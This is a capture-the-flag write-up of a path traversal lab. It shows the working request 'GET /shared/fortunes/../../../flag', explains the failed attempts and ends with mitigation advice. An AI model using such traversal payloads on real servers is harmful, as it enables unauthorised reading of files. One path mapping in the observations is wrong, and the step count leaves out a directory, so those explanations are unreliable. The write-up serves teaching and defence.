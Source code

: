 # Path Traversal Challenge Solution and Analysis

## Challenge Summary

The challenge is a web security lab designed to test for **Path Traversal vulnerabilities**. The web server exposes access to files through a route such as:

```
/shared/<user_input>
```

Internally, the server maps this to a filesystem path like:

```
/challenge/files/<user_input>
```

For example:

```
/shared/fortunes/fortune-1.txt
→ /challenge/files/fortunes/fortune-1.txt
```

## Goal

Retrieve a file named `flag` which is not listed in the `files` or `files/fortunes` directory. All attempts to access `/shared/fortunes/flag`, `/shared/flag`, etc., result in `404 Not Found`.

## Observations from Server Logs

1. Requests such as:

   * `/shared/../flag`
   * `/shared/fortunes/../../flag`
   * `/shared/x/../../flag`

   all map to:

   * `/challenge/files/../flag` → `/challenge/flag`
   * `/challenge/files/fortunes/../../flag` → `/flag`

   All of these attempts resulted in 404 errors.

2. The successful request was:

   ```
   GET /shared/fortunes/../../../flag
   ```

   → Internally resolved to:

   ```
   /challenge/files/fortunes/../../../flag
   → /challenge/files → /challenge → / → /flag
   ```

### Why Did This Work?

* `../../../` performs 3 directory traversals:

  * 1st `..` → `/challenge/files`
  * 2nd `..` → `/challenge`
  * 3rd `..` → `/`

* Therefore, the path becomes `/flag`.

* This means the flag file is placed in the \*\*root directory of the system \*\*\`\`, which is a common trick in security challenges.

## Final Exploit Path

```http
GET /shared/fortunes/../../../flag HTTP/1.1
```

### Server Maps to:

```
/challenge/files/fortunes/../../../flag
→ /flag
```

## Conclusion

The path traversal vulnerability allowed escaping the intended directory (`/challenge/files`) entirely and accessing system-level paths. By sending `../../../flag`, the attacker reaches the root and reads the flag file.

## Mitigation Strategies

To prevent this type of vulnerability:

* **Normalize and validate input paths**: After resolving symbolic links and path traversal sequences, confirm the resulting path is within the allowed directory.
* **Use sandboxing**: Use chroot jails or containers to restrict filesystem access.
* **Avoid direct user-controlled path concatenation**: Sanitize and validate inputs before appending them to any filesystem path.
